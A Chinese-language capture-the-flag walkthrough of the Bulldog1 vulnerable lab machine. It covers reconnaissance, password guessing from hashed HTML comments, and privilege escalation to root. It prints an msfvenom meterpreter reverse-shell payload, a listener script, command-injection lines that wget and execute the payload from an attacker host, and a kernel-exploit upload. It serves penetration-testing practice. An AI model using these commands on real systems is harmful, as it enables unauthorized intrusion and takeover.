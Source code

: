 # Bulldog1渗透实战

## 扫描不到bulldog主机ip

​	【1】从新启动bulldog，到开机页面选择第二个Ubuntu的高级选项。
​	【2】进入高级选项，再次选择第二个Linux内核版本的恢复模式回车。
选择root一行回车，进入命令行模式。

```
vim /etc/network/interfaces ，修改网卡名称成步骤查询的结果，保存。
	auto ens33
	iface ens33 inet dhcp
reboot
```

```
输入 ifconfig -a （查看网卡名称）

dhclient
```

## 目标主机IP：192.168.100.149

```
nmap 192.168.100.149     
```

![image-20210918190613519](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210918190613519.png)

```
nmap -sV -T4 -p 23,80,8080 192.168.100.149
```

![image-20210918190817548](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210918190817548.png)

```
whatweb 192.168.100.149
```

![image-20210918191053164](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210918191053164.png)
	

```
dirb http://192.168.100.149
```

​	![image-20210918191258280](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210918191258280.png)

> 访问http://192.168.37.141/admin/
>
> url-->http://192.168.100.149/admin/login/?next=/admin/

​	![image-20210918191543740](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210918191543740.png)

>  访问http://192.168.37.141/dev

![](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210918191748073.png)

> 访问http://192.168.37.141/dev 的源码

![image-20210918191947541](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210918191947541.png)

	Team Lead: alan@bulldogindustries.com<br><!--6515229daf8dbdc8b89fed2e60f107433da5f2cb-->
	Back-up Team Lead: william@bulldogindustries.com<br><br><!--38882f3b81f8f2bc47d9f3119155b05f954892fb-->
	Front End: malik@bulldogindustries.com<br><!--c6f7e34d5d08ba4a40dd5627508ccb55b425e279-->
	Front End: kevin@bulldogindustries.com<br><br><!--0e6ae9fe8af1cd4192865ac97ebf6bda414218a9-->
	Back End: ashley@bulldogindustries.com<br><!--553d917a396414ab99785694afd51df3a8a8a3e0-->
	Back End: nick@bulldogindustries.com<br><br><!--ddf45997a7e18a25ad5f5cf222da64814dd060d5--> 
	Database: sarah@bulldogindustries.com<br><!--d8b8dd5e7f000b8dea26ef8428caf38c04466b3e-->

[md5在线解密破解,md5解密加密](https://www.cmd5.com/)

>  分析源码可以猜测：

    ```
    用户名为nick，密码为bulldog；
    用户名为sarah，密码为bulldoglover；
    ```

**尝试进行登录主页**

![image-20210918192345052](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210918192345052.png)

>  认证成功之后，尝试访问http://192.168.100.149/dev/shell/

![image-20210918192557473](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210918192557473.png)

## **获取shell**

- msfvenom生成木马

```
sudo msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.100.143 LPORT=4444 -b "\x00" -i 10 -f elf -o  /var/www/html/xiao3
```

**linux.rc**

```sh
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.100.143
set LPORT 4444
exploit
```

- 开启监听

```sh
msfconsole  -qr /home/xiaoxiaoran/shell/linux.rc  
```
- 命令注入执行木马

```sh
ls & wget http://192.168.100.143/xiao3
ls & chmod +x xiao3
ls & ./xiao3
```

## **提权操作**

```
meterpreter > cat /etc/passwd
```

![image-20210918193938607](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210918193938607.png)

```
meterpreter > cd /home/bulldogadmin 
meterpreter > ls
```

![image-20210918194143202](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210918194143202.png)

```
meterpreter > cd .hiddenadmindirectory 
meterpreter > ls
```

![image-20210918194428775](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210918194428775.png)

```
meterpreter > cat note 
```

![image-20210918195323361](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210918195323361.png)

```
meterpreter > download customPermissionApp /temp

┌──(root192)-[/temp]
└─# strings customPermissionApp 
```

![image-20210918195424428](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210918195424428.png)

猜测可能是密码，应为**SUPER**、 ulitimate、PASSWORD、youCANTget\****， 可以把他们连到一起正好是SUPER ultimate PASSWORD you CAN Tget，H是来混淆的，中间刚好有PADDWORD；

```
meterpreter > shell
python -c 'import pty; pty.spawn("/bin/bash")';
sudo python -c 'import pty; pty.spawn("/bin/bash")';
```

![image-20210918200653420](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210918200653420.png)

```
密码为 SUPERultimatePASSWORDyouCANTget
```



## ok....拿到root

## 后续

```
meterpreter > sysinfo
```

![image-20210918203701419](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210918203701419.png)

```
searchsploit Ubuntu 16.04    
```

![image-20210918203800875](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/image-20210918203800875.png)

```
meterpreter > upload /tmp /usr/share/exploitdb/exploits/linux/local/44298.c
```

```
gcc -pthread 44298.c -o exp -lcrypt
```

## 没有gcc  --.--

